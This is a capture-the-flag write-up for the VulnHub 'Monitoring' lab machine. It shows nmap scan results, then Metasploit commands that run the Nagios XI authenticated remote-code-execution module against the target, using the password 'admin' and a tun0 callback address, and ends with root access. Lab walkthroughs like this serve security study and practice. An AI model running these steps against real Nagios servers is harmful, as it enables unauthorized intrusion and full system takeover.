 ```yaml
---
description: VulnHub Monitoring machine writeup
cover: ../.gitbook/assets/image.png
coverY: 0
---
```


# \[Easy] Monitoring

### Recon:

<pre class="language-c"><code class="lang-c">PORT    STATE SERVICE  VERSION
<strong>22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
</strong>| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_sslv2: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code></pre>

### Web

#### Homepage

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

#### Login page

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

### Exploitation

Use a <mark style="color:yellow;">`nagios_xi_plugins_check_plugin_authenticated_rce`</mark> module in Metasploit:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Set options:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.125.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SRVHOST tun0
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
```

Run and get root:

<figure><img src="../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>
